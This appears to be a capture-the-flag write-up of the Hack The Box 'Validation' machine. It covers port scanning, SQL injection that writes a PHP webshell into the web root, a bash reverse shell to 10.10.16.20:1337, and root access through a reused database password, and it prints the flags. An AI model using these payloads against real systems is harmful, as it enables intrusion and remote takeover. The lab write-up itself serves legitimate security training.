 # Validation
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/34121d99-dd66-480a-a190-40e8a6267294)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.116 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 09:27 PDT
Stats: 0:00:15 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 86.10% done; ETC: 09:27 (0:00:02 remaining)
Stats: 0:00:15 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 87.80% done; ETC: 09:27 (0:00:02 remaining)
Nmap scan report for 10.10.11.116
Host is up (0.041s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
22/tcp   open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8f5efd2d3f98dadc6cf24859426ef7a (RSA)
|   256 463d6bcba819eb6ad06886948673e172 (ECDSA)
|_  256 7032d7e377c14acf472adee5087af87a (ED25519)
80/tcp   open     http           Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open     http           nginx
|_http-title: 403 Forbidden
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http           nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.37 seconds
```

1. Based from the nmap result, our interest should be the web application and the ssh login. But anyway the only http port I can access is por 80.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/94029c75-dabe-43ca-9867-0bb97c48803d)


2. Intercepting the request in burpsuite, it seems we can change the country name to whatever we want.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e5374d98-bb44-42f2-bc8d-72974bb9a73a)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3873637f-4f76-45f4-a19f-51d8f4e1de8e)


3. Long story short, it's vulnerable to SQLi.

> Change the `Country` parameter to quote (').

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0023927a-4c1b-465b-8595-dac5e49189a5)


4. Great! Now we need to identify how many column that can be returned to us.

> USING ORDER BY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/27270404-01d2-4156-86fd-d2be2b449ee8)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/038bfe71-1b92-4a2b-8279-82754521dff5)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3f601f06-c93f-4bf0-8184-f4030a378ca8)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0fcf2495-8894-4551-ad8a-741663e392a9)


5. Got error, when sending 2. It means we can only return 1 column.
6. Based from the wappalyzer, we knew that the webapp is using PHP.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/87af3c2f-6aaf-412c-a92f-e3dc9a7d1dd5)


7. Great, sqli vuln in php-based webapp should allows us to drop a webshell.

> PAYLOAD

```sql
' UNION SELECT "<?php SYSTEM($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -
```

```
┌──(brandy㉿bread-yolk)-[~]
└─$ curl http://validation.htb/shell.php?cmd=id                                                                       
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

8. Great, let's do reverse shell.

> REVSHELL

```
curl http://validation.htb/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.16.20/1337 0>&1"'
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b4b2a1b3-840d-4374-8e93-5bb3e1353cea)


9. Let's change from **SYSTEM** to **REQUEST**. So send our webshell first, then run the revshell again.

```
' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shellv2.php'-- -

curl http://validation.htb/shellv2.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.16.20/1337 0>&1"'
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/89caff78-8b16-486b-a51e-21072e1f527c)


10. Got shell!

> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4b692f56-cf5e-4d82-a841-a1d3a25ede90)


## USER FLAG

```
51e2c20c4ab36b81abbf2838ec8b3a63
```


11. Obviously we can't check sudo permission. The only thing that should be our interest is the config.php file at /var/www/html

> CONFIG.PHP

```php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

12. In config.php, we found a hardcoded db password.
13. The interpretation is this .php should mean something to us, what if there's a **password re-use**.
14. To prove that, run `su` and enter the db password.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b0d79fff-29ca-4b74-a6e8-7674d1ea52fb)


15. And we got root..

> GETTING ROOT FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/588cdc68-51e8-4a40-b350-f4ee1aff4d6c)


## ROOT FLAG

```
e9cab8999cf80c96fb793662a56dec55
```
